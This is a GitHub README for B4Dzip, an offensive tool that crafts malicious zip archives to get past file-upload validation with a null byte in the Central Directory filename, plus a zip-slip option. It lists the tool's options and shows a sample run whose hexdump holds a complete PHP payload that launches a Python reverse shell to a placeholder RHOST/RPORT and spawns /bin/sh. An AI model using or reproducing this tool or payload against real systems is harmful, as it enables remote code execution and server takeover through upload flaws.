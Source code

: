 # B4Dzip

The main purpose of this script is to create a zip file for exploiting File Upload using Null Byte injection. The vulnerability
occurs due to an incorrect validation of the Central Directory Header filename.

<!-- USAGE EXAMPLES -->
## Usage

```
python3 main.py  --help
usage: B4Dzip [-h] -F FILE -E EXT -P PAYLOAD [-ZS ZIP_SLIP] [-O OUTPUT_FNAME]

Creates a malicious zip file using the given payload as content and injecting NULL Byte in the given
filename, to bypass validations in the Central Directory Header filename.

optional arguments:
  -h, --help            show this help message and exit
  -F FILE, --file FILE  Filename of the file to compress
  -E EXT, --ext EXT     Extension to append after NULL Byte injection.
  -P PAYLOAD, --payload PAYLOAD
                        Payload filepath
  -ZS ZIP_SLIP, --zip-slip ZIP_SLIP
                        Zip Slip parent directory, something like: ../../../
  -O OUTPUT_FNAME, --output-fname OUTPUT_FNAME
                        Output file name
```
## Usage via `runner.sh`

I Highly recommend to use the `runner.sh` file for getting information about usage examples.
The example below shows how a successfull execution of the script should look like.

```
./runner.sh 
b4d.zip saved successfully.


*********** SUMMARY ***********

Archive:  b4d.zip
  Length      Date    Time    Name
---------  ---------- -----   ----
      236  2023-08-30 22:43   cc7f82eef39c4d12.php
---------                     -------
      236                     1 file


00000000  50 4b 03 04 0a 00 00 00  00 00 69 b5 1e 57 27 58  |PK........i..W'X|
00000010  57 17 ec 00 00 00 ec 00  00 00 14 00 00 00 63 63  |W.............cc|
00000020  37 66 38 32 65 65 66 33  39 63 34 64 31 32 2e 70  |7f82eef39c4d12.p|
00000030  68 70 3c 3f 70 68 70 20  73 79 73 74 65 6d 28 22  |hp<?php system("|
00000040  65 78 70 6f 72 74 20 52  48 4f 53 54 3d 27 3c 72  |export RHOST='<r|
00000050  68 6f 73 74 3e 27 3b 65  78 70 6f 72 74 20 52 50  |host>';export RP|
00000060  4f 52 54 3d 3c 72 70 6f  72 74 3e 3b 70 79 74 68  |ORT=<rport>;pyth|
00000070  6f 6e 33 20 2d 63 20 5c  22 69 6d 70 6f 72 74 20  |on3 -c \"import |
00000080  73 6f 63 6b 65 74 2c 6f  73 2c 70 74 79 3b 73 3d  |socket,os,pty;s=|
00000090  73 6f 63 6b 65 74 2e 73  6f 63 6b 65 74 28 29 3b  |socket.socket();|
000000a0  73 2e 63 6f 6e 6e 65 63  74 28 28 6f 73 2e 67 65  |s.connect((os.ge|
000000b0  74 65 6e 76 28 27 52 48  4f 53 54 27 29 2c 69 6e  |tenv('RHOST'),in|
000000c0  74 28 6f 73 2e 67 65 74  65 6e 76 28 27 52 50 4f  |t(os.getenv('RPO|
000000d0  52 54 27 29 29 29 29 3b  5b 6f 73 2e 64 75 70 32  |RT'))));[os.dup2|
000000e0  28 73 2e 66 69 6c 65 6e  6f 28 29 2c 66 64 29 20  |(s.fileno(),fd) |
000000f0  66 6f 72 20 66 64 20 69  6e 20 28 30 2c 31 2c 32  |for fd in (0,1,2|
00000100  29 5d 3b 70 74 79 2e 73  70 61 77 6e 28 27 2f 62  |)];pty.spawn('/b|
00000110  69 6e 2f 73 68 27 29 5c  22 22 29 3b 3f 3e 50 4b  |in/sh')\"");?>PK|
00000120  01 02 1e 03 0a 00 00 00  00 00 69 b5 1e 57 27 58  |..........i..W'X|
00000130  57 17 ec 00 00 00 ec 00  00 00 19 00 00 00 00 00  |W...............|
00000140  00 00 00 00 00 00 a4 81  00 00 00 00 63 63 37 66  |............cc7f|
00000150  38 32 65 65 66 33 39 63  34 64 31 32 2e 70 68 70  |82eef39c4d12.php|
00000160  00 2e 70 64 66 50 4b 05  06 00 00 00 00 01 00 01  |..pdfPK.........|
00000170  00 47 00 00 00 1e 01 00  00 00 00                 |.G.........|
0000017b
```


## Meta

Diego Muñoz – [LinkedIn](linkedin.com/in/diegomuñozm)

Distributed under the MIT License. Go to ``LICENSE`` for more information.

[See license](https://github.com/0xCronos/B4Dzip/blob/master/LICENSE)

